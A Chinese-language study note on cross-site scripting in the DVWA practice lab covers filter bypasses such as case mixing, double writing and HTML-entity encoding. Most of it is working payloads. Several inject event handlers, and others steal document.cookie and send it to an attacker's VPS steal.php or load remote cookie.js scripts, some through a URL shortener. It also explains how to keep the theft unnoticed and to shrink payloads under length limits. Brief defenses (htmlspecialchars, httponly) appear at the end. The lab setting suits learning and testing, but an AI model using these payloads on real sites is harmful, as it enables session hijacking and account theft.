 ## dvwa学习xss

### 测试环境

win7虚拟机 ，ip 192.168.255.151，用phpstudy将dvwa 环境 搭在 8081端口

一台物理机，ip 192.168.1.101,作为我的vps，用于获取xss返回的cookie,用phpstudy搭建的环境，808端口存有 cookie.js，steal.php等文件

火狐浏览器，谷歌浏览器有 xss filter

搭建数据库sql：

```

	create database dvwacookie;
	
	use dvwacookie;
	
	create table low(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table medium(id int not null auto_increment primary key,cookie varchar(100) not null);

	create table high(id int not null auto_increment primary key,cookie varchar(100) not null);

```


### 参考资料

[新手科普 通过DVWA学习XSS](https://www.freebuf.com/articles/web/157953.html)

[针对不同标签的xss利用汇总](https://www.cnblogs.com/xiaozi/p/5588099.html)

[xssbypass](https://d3adend.org/xss/ghettoBypass)

[xss变形](https://www.jb51.net/tools/xss.htm)


### xss介绍

WEB前端中最常见的两种安全风险，XSS与CSRF，XSS，即跨站脚本攻击、CSRF即跨站请求伪造,两者属于跨域安全攻击。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

xss分为 存储型，反射型，dom型。

XSS的Payload一般是写在URL中，之后设法让被害者点击这个链接

存储型xss 通过留言板等输入框注入的脚本存在于靶机服务器的数据库中

反射性xss 利用脚本与服务器交互，绕过限制

DOM型的XSS是不需要与服务器交互的，它只发生在客户端处理数据阶段。

简单理解DOM XSS就是出现在javascript代码中的xss漏洞。

DOM型XSS是前端代码中存在了漏洞，而反射型和存储型是后端代码中存在了漏洞。

反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，在dom xss中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

### xss危害

获取到用户的cookie信息或者劫持用户跳转到钓鱼网站
 

### 专用扫描工具

XSSER,XSSF等

工具扫描效率高存在误报，不如手动扫描准确。

### xss利用


#### 注入方式

1双写绕过

2大小写混淆绕过

3虽然无法使用```<script>```标签注入XSS代码，但是可以通过img、body等标签的事件或者iframe等标签的src注入恶意的js代码。

```

	<iframe src=1 onload='alert(1)' /><iframe>

	<iframe src=1 onmouseover=alert('xss') y=2016 /><iframe>
	
	<iframe src="../csrf" onload='alert(frames[0].document.getElementsByName("user_token")[0].value)'>

	<img src=1 onerror=alert(/xss/)>

	<body onload='alert(/xss/)'</body>

	<svg onload=alert("xss")>
	
```

4 dom xss 注入

4.1 标签闭合  （会破坏页面结构，隐蔽性不如注释方法）

```></option></select><img src=1 onerror=alert('hack')>```

```</option></select><svg onload=alert("xss")>```
 
4.2  注释

``` #<script src=http://192.168.1.101:808/b.js></script>``` 
\#会注释掉，后面的内容不会发送到后台

5. 存储型和反射型xss

为了绕过  '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i'  正则，

可将插入代码中的i进行html字符实体编码以绕过正则

```<img src=# onerror=(locat&#x69;on.href="http://192.168.1.101:8081/steal.php?data="+document.cookie)>```

直接跳转到steal.php

[**html字符 转换 字符实体在线编码**](https://www.qqxiuzi.cn/bianma/zifushiti.php)

在python 中解码函数 print (html.unescape('&#20013;&#22269;'))


js操作ajax(注入字符过多，不推荐)

```<img src=# onerror='var url="http://192.168.1.101:808/steal.php";var postStr="data="+document.cook&#x69;e;var ajax=null;&#x69;f(w&#x69;ndow.XMLHttpRequest){ajax=new XMLHttpRequest();}else &#x69;f(w&#x69;ndow.Act&#x69;veXObject){ajax=new Act&#x69;veXObject("M&#x69;crosoft.XMLHTTP");}else{ajax=null;}ajax.open("POST",url,true);ajax.setRequestHeader("Content-Type", "appl&#x69;cat&#x69;on/x-www-form-urlencoded");ajax.send(postStr);'>
```

jq操作ajax(注入字符过多，不推荐)(这里使用短链接会异常，应该是浏览器解析dom的问题)

```
<img src=# onerror="var a=document.createElement('scr&#x69;pt');a.setAttr&#x69;bute('src', 'https://dwz.cn/tA0Ob030');document.getElementsByTagName('head')[0].appendCh&#x69;ld(a);var b= document.createElement('scr&#x69;pt'); b.setAttr&#x69;bute('src','http://192.168.1.101:808/c.js');document.getElementsByTagName('head')[0].appendChild(b);">
```

```ALTER TABLE guestbook MODIFY name VARCHAR(180);```

js操作原生态ajax,不用引用jquery，最节省代码,171字符

```<img src=# onerror="var b= document.createElement('scr&#x69;pt');
b.setAttribute('src','http://192.168.1.101:808/b.js');
document.getElementsByTagName('head')[0].appendChild(b);">```

6.限制输入字符长度的浏览器注入方法

chrome: F12 ，Elements , 选定元素，Edit as HTML

firefox:F12 ，inspector/查看器，编辑html， 修改 maxlength

7.记录cookie

```<img src=# onerror=(location.href="http://192.168.1.101:808/steal.php?data="+document.cookie)>
```

这种方式有个缺点就是将cookie发送到steal.php后他会刷新页面跳转到steal.php，所以要用ajax优化

在有xss漏洞的位置插入:


```<script src=http://192.168.1.101:808/cookie.js></script>```

相当于构造链接:

```http://192.168.255.151:8081/DVWA-master/vulnerabilities/xss_r/?name=<script src=http://192.168.1.101:808/cookie.js></script>```

也可以用jquery操作ajax，但是需要引入头文件例如 ```https://cdn.bootcss.com/jquery/1.10.2/jquery.min.js```

[**百度短网址**](https://dwz.cn/)

```<script src=https://dwz.cn/tA0Ob030></script><script src=http://192.168.1.101:808/c.js></script>```   成功跨域获取cookie,压缩到刚好100字节(还可以服务器使用80端口继续压缩字节)

**将链接发给该网站下的受害者，受害者点击时就会加载远程服务器（vps）上的cookie.js脚本，这里要提一点，用src加载远程服务器的js脚本，那么js的源就会变成加载它的域，从而可以读取该域的数据。这时，vps的数据库就接收到了cookie。**

观察firebug的javascript控制台，看到已拦截跨源请求：同源策略禁止读取位于 http://192.168.1.101:808/steal.php 的远程资源。（原因：CORS 头缺少 'Access-Control-Allow-Origin'）

因为ajax严格遵从同源策略，当前加载cookie.js的域为http://192.168.255.151:8081,所以ajax不能读取不同域http://192.168.1.101下的数据，但是cookie已经被发送到了http://192.168.1.101域，steal.php已经将偷取到的cookie存放在了数据库中,而且页面没有刷新，很隐蔽。

8.js ，jq操作 ajax对比



### xss反制

htmlspecialchars 把预定义的字符&、”、 ’、<、>转换为 HTML 实体，防止浏览器将其作为HTML元素。转义可能引起跨站漏洞的标签

http层做到防护，给cookie设置httponly属性，使cookie不能被javascript读取，才能有效防止用户cookie被盗用的问题